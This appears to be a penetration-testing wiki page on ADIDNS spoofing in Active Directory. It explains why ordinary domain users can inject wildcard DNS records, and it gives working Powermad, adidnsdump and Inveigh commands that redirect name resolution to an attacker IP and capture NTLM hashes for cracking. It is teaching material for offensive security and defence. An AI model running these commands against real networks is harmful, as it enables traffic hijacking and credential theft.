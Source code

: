 # ADIDNS spoofing

## Theory

In order to function properly, Active Directory services need DNS. In that matter, Active Directory Domain Services \(AD-DS\) offer an integrated storage and replication service for DNS records. This is called Active Directory Integrated DNS \(ADIDNS\).

Just like any other domain name resolution spoofing attack, if an attacker is able to resolve requests with an arbitrary IP address, traffic gets hijacked, the attacker becomes a man-in-the-middle and further attacks can be operated.

Since ADIDNS zone DACL \(Discretionary Access Control List\) enables regular users to create child objects by default, attackers can leverage that and hijack traffic.

ADIDNS zones can be remotely edited

* with **dynamic updates** \(a DNS specific protocol used by machine accounts to add and update their own DNS records\). Users can create records if they don't exist, and they will have full control over it. By default, users that don't own a record will not be able to edit it, or to add another one with the same name, even if the type is different \(A, AAAA, CNAME, MX, and so on\).
* by **using LDAP** to create dnsNode objects. While dynamic updates can't be used to inject a wildcard DNS record, LDAP can be \(only if the record doesn't already exist, which is the case by default\).

> Wildcard records allow DNS to function in a very similar fashion to LLMNR/NBNS spoofing. Once you create a wildcard record, the DNS server will use the record to answer name requests that do not explicitly match records contained in the zone. \([source](https://blog.netspi.com/exploiting-adidns/#wildcard)\)

## Practice

### Manual record manipulation

On Windows, the [Powermad ](https://github.com/Kevin-Robertson/Powermad)module can be used to manually add/view/edit/enable/disable/remove records. In the following examples, the wildcard \(`*`\) record is targeted but the examples should also work with other records \(except things like `WPAD` that are in the [GQBL](wpad-spoofing.md#through-adidns-spoofing)\).

{% tabs %}
{% tab title="Get/Read" %}
The following command can be used to get the value populated in the DNSRecord attribute of a node.

```bash
Get-ADIDNSNodeAttribute -Node * -Attribute DNSRecord
```
{% endtab %}

{% tab title="Add" %}
The following command creates a wildcard record, sets the `DNSRecord` attribute and sets the `DNSTombstoned` attribute, allowing any authenticated user to perform modifications to the node \(this helps maintain control of the node, even when the owner accounts gets deleted. Pretty useful after a pentest\).

```bash
New-ADIDNSNode -Tombstone -Verbose -Node * -Data $ATTACKER_IP
```
{% endtab %}

{% tab title="Set/Edit" %}
The `Set-ADIDNSNodeAttribute` function can be used to append, populate, or overwrite values in a DNS node attribute. In this case, the command below can be used to set/overwrite the record's value.

```bash
Set-ADIDNSNodeAttribute -Node * -Attribute DNSRecord -Value (New-DNSRecordArray -Data $ATTACKER_IP) -Verbose
```
{% endtab %}

{% tab title="Enable" %}
A tombstoned record can be turned again into a valid record with the following command. This should be used in place of `New-ADIDNSNode` when working with nodes that already exist due to being previously added.

```bash
Enable-ADIDNSNode -Node *
```
{% endtab %}

{% tab title="Disable" %}
A record can be disabled \(i.e. tombstoned\) with the following command. This means the record will still exist but will not be used when resolving names.

```bash
Disable-ADIDNSNode -Node *
```
{% endtab %}

{% tab title="Remove" %}
The following command can be used to fully remove a record.

```bash
Remove-ADIDNSNode -Node *
```
{% endtab %}

{% tab title="Check/Resolve" %}
While `ping` can absolutely be used for the job, the [Powermad ](https://github.com/Kevin-Robertson/Powermad)module can be used to resolve names \(all DNS spoofing attacks need to be stopped in order to avoid false results\).

```bash
Resolve-DnsName NameThatDoesntExist
```

That command will either return an IP address, indicating that the wildcard record exists \(or that `NameThatDoesntExist` is an actual explicit record\), or return an error stating that the DNS name doesn't exist, indicating that the wildcard record doesn't exist.
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**TL; DR**: the following command will add a new wildcard record \(if it doesn't already exist\) with the attacker IP set in the DNSRecord attribute

```bash
New-ADIDNSNode -Tombstone -Verbose -Node * -Data $ATTACKER_IP
```
{% endhint %}

More help on usage, support functions, parameters and attacks [here](https://github.com/Kevin-Robertson/Powermad#adidns-functions).

On UNIX-like systems, [adidnsdump](https://github.com/dirkjanm/adidnsdump) \(Python\) can be used for enumeration and export of all DNS records in the Active Directory Domain or Forest DNS zones.

```bash
adidnsdump -u "DOMAIN\user" -p 'password' --include-tombstoned $DOMAIN_CONTROLLER
grep "*" records.csv
```

### Dynamic spoofing

Using [Inveigh](https://github.com/Kevin-Robertson/Inveigh) \(Powershell\), the following command will 

* operate [LLMNR, NBT-NS and mDNS spoofing](llmnr-nbtns-mdns.md)
* operate ADIDNS spoofing
  * `combo` looks at LLMNR/NBNS requests and adds a record to DNS if the same request is received from multiple systems
  * `ns` injects an NS record and if needed, a target record. This is primarily for the GQBL bypass for wpad. 
  * `wildcard` injects a wildcard record
* set the threshold at which the combo ADIDNS spoofing mode will take effect
* enable showing NTLM challenge/response captures from machine accounts
* set the Challenge to `1122334455667788` \(to [crack NTLM hashes](../credentials/cracking.md#practice) with [crack.sh](https://crack.sh/)\)

```text
Invoke-Inveigh -ConsoleOutput Y -ADIDNS combo,ns,wildcard -ADIDNSThreshold 3 -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
```

[This wiki page](https://github.com/Kevin-Robertson/Inveigh/wiki/Basics) can be really useful to help master Inveigh and its support functions

* `Clear-Inveigh` to clear Inveigh's hashtable
* `Get-Inveigh` to get data from Inveigh's hashtable
* `Stop-Inveigh` to stop all running modules
* `Watch-Inveigh` to enable real time console output

## References

{% embed url="https://blog.netspi.com/exploiting-adidns/" %}

{% embed url="https://blog.netspi.com/adidns-revisited/" %}

{% embed url="https://snovvcrash.rocks/2020/12/28/htb-hades.html\#spoofing-active-directory-integrated-dns" %}



